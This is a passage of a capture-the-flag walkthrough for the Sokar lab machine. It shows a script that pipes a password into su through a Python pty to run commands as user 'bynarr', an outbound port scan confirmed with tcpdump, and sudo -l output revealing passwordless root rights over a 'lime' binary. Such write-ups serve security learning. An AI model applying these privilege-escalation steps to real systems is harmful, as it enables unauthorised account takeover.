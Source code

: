 All I have to do to get the output of `id` is provide it as a argument to `bynarr.py`:

```bash
leonjza@kali/sokar $ python bynarr.py "id"
 * Executing /usr/bin/python -c "import time; time.sleep(1); print 'fruity'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su','-c','id', 'bynarr']);"

Password:
uid=500(bynarr) gid=501(bynarr) groups=501(bynarr),500(forensic)
```

## the scary linux memory extractor
With command access as `bynarr` and remembering the mention of `tcp/51242` outbound connectivity, I once more try and run the port scanner that got copied to `/tmp`:

```bash
leonjza@kali/sokar $ python bynarr.py "/usr/bin/python /tmp/port_scan.py"
 * Executing /usr/bin/python -c "import time; time.sleep(1); print 'fruity'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su','-c','/usr/bin/python /tmp/port_scan.py', 'bynarr']);"

Password:
Trying port 51240
Trying port 51241
Trying port 51242
Trying port 51243
Trying port 51244
Trying port 51245
Trying port 51246
Trying port 51247
Trying port 51248
Trying port 51249
```

Checking the `tcpdump` output of this run...:

```text
leonjza@kali/sokar $ tcpdump -i eth1 not arp and not port 591
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth1, link-type EN10MB (Ethernet), capture size 65535 bytes
07:33:43.178113 IP 192.168.217.163.40371 > 192.168.217.174.51242: Flags [S], seq 594732851, win 14600, options [mss 1460,sackOK,TS val 2274844 ecr 0,nop,wscale 4], length 0
07:33:43.178129 IP 192.168.217.174.51242 > 192.168.217.163.40371: Flags [R.], seq 0, ack 594732852, win 0, length 0
```

... I finally see something coming out of Sokar!
So `bynarr` is able to talk out on `tcp/51242`. Wut. Taking a few moments to think about this, I remembered that `iptables` is able to filter by user id using the `owner` module. At this stage, this was the only thing that made sense why `apache` would not be able to talk out on this port, but `bynarr` can.

So with that out the way, it was time to focus on this `lime` thing. `bynarr` was allowed to run `/home/bynarr/lime` as root via `sudo` without a password (as I suspected for the `insmod`):

```bash
leonjza@kali/sokar $ python bynarr.py "sudo -l"
 * Executing /usr/bin/python -c "import time; time.sleep(1); print 'fruity'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su','-c','sudo -l', 'bynarr']);"

Password:
Matching Defaults entries for bynarr on this host:
    !requiretty, visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
```